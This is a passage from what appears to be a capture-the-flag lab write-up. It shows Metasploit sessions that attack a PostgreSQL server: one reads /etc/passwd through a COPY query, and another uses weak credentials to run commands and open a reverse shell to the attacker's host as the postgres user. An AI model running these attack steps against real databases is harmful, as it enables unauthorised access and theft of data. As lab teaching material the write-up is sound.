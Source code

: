 - Then file reading. `auxiliary/admin/postgres/postgres_readfile`

  ```
  msf6 auxiliary(admin/postgres/postgres_readfile) > run
  [*] Running module against 10.10.112.12
  Query Text: 'CREATE TEMP TABLE dSxCFCCI (INPUT TEXT);
        COPY dSxCFCCI FROM '/etc/passwd';
        SELECT * FROM dSxCFCCI'
  ===========================================================================================================================
  
      input
      -----
      #/home/dark/credentials.txt
      [SNIP!]

  [SNIP!]
  ```

- Last one is reverse shell. `exploit/multi/postgres/postgres_copy_from_program_cmd_exec`

  ```
  msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 10.10.112.12
  RHOSTS => 10.10.112.12
  msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set PASSWORD password
  PASSWORD => password
  msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST [YOUR-THM-IP]
  LHOST => [YOUR-THM-IP]
  msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run
  [*] Started reverse TCP handler on [YOUR-THM-IP]:4444 
  [*] 10.10.112.12:5432 - 10.10.112.12:5432 - PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
  [*] 10.10.112.12:5432 - Exploiting...
  [+] 10.10.112.12:5432 - 10.10.112.12:5432 - yKYghfncgn dropped successfully
  [+] 10.10.112.12:5432 - 10.10.112.12:5432 - yKYghfncgn created successfully
  [+] 10.10.112.12:5432 - 10.10.112.12:5432 - yKYghfncgn copied successfully(valid syntax/command)
  [+] 10.10.112.12:5432 - 10.10.112.12:5432 - yKYghfncgn dropped successfully(Cleaned)
  [*] 10.10.112.12:5432 - Exploit Succeeded
  whoami
  [*] Command shell session 1 opened ([YOUR-THM-IP]:4444 -> 10.10.112.12:37090) at 2025-05-14 14:22:27 +0100
  
  postgres
  whoami
  postgres
  id
  uid=109(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
  ```

- Perfect, now we have a reverse shell so we can start chasing flags.

---

## 🧍 User Privilege Escalation

